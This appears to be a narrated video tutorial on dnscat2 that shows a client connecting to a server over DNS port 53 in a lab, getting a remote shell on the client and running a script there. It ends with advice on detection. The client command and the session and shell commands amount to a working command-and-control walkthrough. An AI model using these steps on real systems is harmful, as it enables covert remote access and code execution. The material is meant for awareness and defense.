 Client Setup 01:43-02:39
First, we're going to change directories with ‘cd /dnscat2/'. As you can see, the file structure is the same as the server when we list the files. Type ‘ls -l' once again. Now, we're going to go to the client folder with ‘cd client'. The executable we're interested in is called ‘dnscat'. The command that was just pasted is ‘./dnscat –dns domain=ajptech.net, server=192.168.0.75, port=53'. The server IP address we just inserted was the IP address of the server that was just set up, and port 53 is the default port for DNS. Once we click Enter, it establishes a connection with the server. The connection is automatically encrypted and always shows a string of words to verify. The same strings of words should be shown on the server side. So, let's go ahead and switch back to our server.

Take Control 02:39-03:27
Now that we're back on the server, you can see there's a new window created, and the same string of words are listed for security purposes. Let's use the Help option to list some of the available commands in this window. We're not going to use all these commands today, but this should give you a good idea where to start. If, by chance, you had multiple clients connecting or you needed to see all connected clients, you could type ‘windows' to display that. We're interested in the first session here. To interact with it, we need to type ‘session -i 1'. Now that we're interacting with the client, our Help menu has changed when we type ‘help'. Let's see if we can get into the shell of the client system by typing ‘shell'. This will create a second window with a session ID of 2. Just like the first step, we need to interact with the shell by typing ‘session -i 2'.

Remote File Execution 03:27-04:27
The menu has changed a little bit, and now we can see the hostname kali-linux2, which is our client. When we do an ‘ls -l', we can tell it dropped us in the dnscat2 home directory. We're going to hunt around to see what's on the system and test out the shell. Let's type ‘cd /' to brings us to the root directory of the system.

So far this appears to be working like a normal shell. I know there's a user by the name of Jack on the system. Let's say a hacker deployed a script when the client was infected. The known area for the script was /home/_username_/ and in our case the username is Jack. You can see there's a folder named Secret when we list out the directory. If we change directories with ‘cd Secret', there's one script listed in here. Let's execute this with ‘./info.sh'. In a normal case, if we didn't know the script, we wouldn't touch it. But this shows you how an attacker could easily execute this shell script remotely. Let's exit out of this now.

Summary 04:27-04:58
It's that simple. A utility such as dnscat2 can be used over DNS to remotely access your system by creating an encrypted tunnel. This can be used for good and bad, so be mindful if you do see this in place. An infection with malware bundled with dnscat2 could easily grant a remote hacker access to your system. IDS systems have been able to detect such malicious traffic on port 53 in order to help prevent such acts.
